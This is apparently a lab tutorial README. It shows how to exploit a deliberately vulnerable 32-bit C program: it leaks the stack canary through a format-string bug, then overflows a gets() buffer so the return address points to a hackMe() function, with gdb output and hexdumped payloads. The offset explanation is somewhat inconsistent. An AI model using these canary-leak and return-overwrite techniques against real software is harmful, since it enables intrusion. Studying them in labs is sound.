 # 0. Requirementes
- Ubuntu 16 **32 bits**: https://releases.ubuntu.com/16.04/
- GDB - GNU Debugger
- GCC
- GDB-PEDA: https://github.com/longld/peda
- Python
- Perl
- hexdump

# 1. Compile the `fmt.c` program
```bash
$ gcc fmt.c -o fmt
fmt.c: In function ‘echo’:
fmt.c:35:5: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
     gets(buf);
     ^
fmt.c:36:12: warning: format not a string literal and no format arguments [-Wformat-security]
     printf(buf);
            ^
/tmp/ccxLZfST.o: In function `echo':
fmt.c:(.text+0x11c): warning: the `gets' function is dangerous and should not be used.

```

# 2. Check buffer overflow
```bash
$ python -c "print('A' * 400)" | ./fmt
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Segmentation fault (core dumped) # <-- buffer overflow
```

```bash

```

# 3. Check canary
```bash
$ gdb -q fmt
Reading symbols from fmt...(no debugging symbols found)...done.
gdb-peda$ disas echo
Dump of assembler code for function echo:
   0x080486d7 <+0>:	push   ebp
   0x080486d8 <+1>:	mov    ebp,esp
   0x080486da <+3>:	sub    esp,0x38
   0x080486dd <+6>:	mov    eax,gs:0x14
   0x080486e3 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x080486e6 <+15>:	xor    eax,eax
   0x080486e8 <+17>:	mov    DWORD PTR [ebp-0x30],0x0
   0x080486ef <+24>:	sub    esp,0xc
   0x080486f2 <+27>:	push   0x8048873                # each time a function is called
   0x080486f7 <+32>:	call   0x8048440 <printf@plt>   # the parameter is pushed to the stack
   0x080486fc <+37>:	add    esp,0x10
   0x080486ff <+40>:	sub    esp,0xc
   0x08048702 <+43>:	lea    eax,[ebp-0x2c]
   0x08048705 <+46>:	push   eax                      # each time a function is called
   0x08048706 <+47>:	call   0x8048450 <gets@plt>     # the parameter is pushed to the stack
   0x0804870b <+52>:	add    esp,0x10
   0x0804870e <+55>:	sub    esp,0xc
   0x08048711 <+58>:	lea    eax,[ebp-0x2c]
   0x08048714 <+61>:	push   eax                      # each time a function is called
   0x08048715 <+62>:	call   0x8048440 <printf@plt>   # the parameter is pushed to the stack
   0x0804871a <+67>:	add    esp,0x10
   0x0804871d <+70>:	sub    esp,0xc
   0x08048720 <+73>:	push   0x8048884                # each time a function is called
   0x08048725 <+78>:	call   0x8048490 <puts@plt>     # the parameter is pushed to the stack
   0x0804872a <+83>:	add    esp,0x10
   0x0804872d <+86>:	sub    esp,0xc
   0x08048730 <+89>:	lea    eax,[ebp-0x2c]
   0x08048733 <+92>:	push   eax                      # each time a function is called
   0x08048734 <+93>:	call   0x8048624 <readPayload>  # the parameter is pushed to the stack
   0x08048739 <+98>:	add    esp,0x10
   0x0804873c <+101>:	nop
   0x0804873d <+102>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048740 <+105>:	xor    eax,DWORD PTR gs:0x14
   0x08048747 <+112>:	je     0x804874e <echo+119>
   0x08048749 <+114>:	call   0x8048470 <__stack_chk_fail@plt> # <-- Stack canary check
   0x0804874e <+119>:	leave  
   0x0804874f <+120>:	ret    
End of assembler dump.
```

# 4. Browsing the stack
```bash
$ ./fmt
Enter a string: AAAA-%5$x
AAAA-2f

How many bytes should I read from your payload.bin?
0
File [payload.bin] not found

$ ./fmt
Enter a string: AAAA-%7$x
AAAA-41414141               #<-- our input in HEX

How many bytes should I read from your payload.bin?
0
File [payload.bin] not found
```

Now we look for the canary position:
```bash
$ for i in {1..4}; do
> echo "AAAA-%15\$x" | ./fmt
> done
Enter a string: AAAA-25913e00

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Enter a string: AAAA-e0d28f00

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Enter a string: AAAA-54de3700

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Enter a string: AAAA-bf2c7200

How many bytes should I read from your payload.bin?
File [payload.bin] not found
```

Note that we receive the same **two** last values.

# 5. How many bytes?
```bash
   0x080486ff <+40>:	sub    esp,0xc
   0x08048702 <+43>:	lea    eax,[ebp-0x2c]   # 2c (hex) = 44 (dec), address of the buffer
   0x08048705 <+46>:	push   eax
```

We need:
- **44** bytes to hit the EBP register
- ** 4** bytes to fill the EPB register (32 bits system)
- ** 4** bytes to reach the return address
 
So, the payload must have **52** bytes to replace the return address by the address of the hackMe function

32 bytes + 
BUFFER + CANARY + GAP + RETURN ADDRESS|
---|

# 6. Constructing the payload
## 6.1 Current canary value (it changes on every run):
```bash
gdb-peda$ run
Starting program: /home/cgd17/Documents/buffer-overflow/hackMe/fmt 
Enter a string: AAAA-%15$x
AAAA-fa1b2f00

How many bytes should I read from your payload.bin?
0
File [payload.bin] not found
[Inferior 1 (process 3271) exited normally]
Warning: not running
```

# 6.2 hackMe() return address
```bash
gdb-peda$ info address hackMe
Symbol "hackMe" is at 0x804860b in a file compiled without debugging.
```
In little-endian: 0x0b860408

# 6.3 Payload
```bash
$ hexdump -C payload.bin
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00000020  00 72 5d 75 42 42 42 42  42 42 42 42 42 42 42 42  |.r]uBBBBBBBBBBBB|
00000030  0b 86 04 08 0a                                    |.....|
00000035
```

# 7. Attack
Run the program:
```bash
$ ./fmt
Enter a string: AAAA-%15$x
AAAA-570d8800

How many bytes should I read from your payload.bin?

```

Generate the payload, remember to update the canary value:
```bash
$ perl payload.pl > payload.bin
$ hexdump -C payload.bin
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00000020  00 72 5d 75 42 42 42 42  42 42 42 42 42 42 42 42  |.r]uBBBBBBBBBBBB| # 20(hex) = 32(dec)
00000030  0b 86 04 08                                       |....|
00000034

```

Continue the program:
```bash
$ ./fmt
Enter a string: AAAA-%15$x
AAAA-570d8800

How many bytes should I read from your payload.bin?
52
That's impossible!!!
Segmentation fault (core dumped)
```

---
More info: https://www.youtube.com/watch?v=0iQhCe-PefE
